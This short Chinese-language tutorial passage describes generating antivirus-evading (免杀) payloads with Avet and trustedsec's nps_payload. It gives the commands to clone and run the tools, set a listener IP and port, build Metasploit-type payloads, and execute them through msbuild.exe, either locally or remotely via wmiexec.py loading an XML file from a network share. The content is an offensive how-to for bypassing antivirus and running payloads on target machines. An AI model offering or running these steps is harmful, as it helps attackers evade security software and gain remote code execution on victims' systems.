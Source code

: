 使用Avet生成免杀文件  

  

启动

  

`python ./avet.py`选择要使用的payload编号  

设置监听ip端口以及其他配置

生成免杀可执行文件

![](https://gitee.com/fuli009/images/raw/master/public/20210810100658.png)

## nps_payload  

### 下载安装

`git clone https://github.com/trustedsec/nps_payload  
cd nps_payload/  
pip install -r requirements.txt`

###  

### 生成  

  
|  
  
---|---  
`python nps_payload.py  
  
选择1生成msf类型payload  
  
选择payload类型  
  
设置IP和端口  
  
生成`

![](https://gitee.com/fuli009/images/raw/master/public/20210810100659.png)  

###  

### 执行  

`1. 本地加载执行:  
- %windir%\Microsoft.NET\Framework\v4.0.30319\msbuild.exe\msbuild_nps.xml  
  
2. 远程文件执行:  
  
wmiexec.py:''@cmd.exe /c start
%windir%\Microsoft.NET\Framework\v4.0.30319\msbuild.exe
\\\<share>\msbuild_nps.xml`

  

